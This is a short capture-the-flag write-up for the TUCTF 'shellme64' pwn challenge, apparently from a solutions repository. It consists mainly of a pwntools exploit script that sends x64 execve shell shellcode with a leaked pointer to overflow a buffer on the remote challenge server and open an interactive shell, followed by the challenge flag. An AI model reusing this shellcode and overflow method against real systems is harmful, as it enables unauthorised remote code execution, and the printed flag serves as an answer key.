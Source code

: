 # shellme64

## PWN - Points: 500

> Same concept, more bytes.
>
> 
>
> nc chal.tuctf.com 30507
>
> [shellme64](shellme64)
>

Find x64 shellcode.

Exploit script:

```python
from pwn import *


shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

# context.terminal = ['termite', '-e']
# p = gdb.debug('./shellme64')
# p = process('shellme64')
p = remote('chal.tuctf.com', 30507)

print p.recvline()
pointer = int(p.recvline()[:-1], 16)
print hex(pointer)

p.sendlineafter('> ', '\x5a' * (40 - len(shellcode)) + shellcode + p64(pointer))
p.interactive()
```

flag: `TUCTF{54m3_5h3llc0d3,_ju57_m0r3_by735}`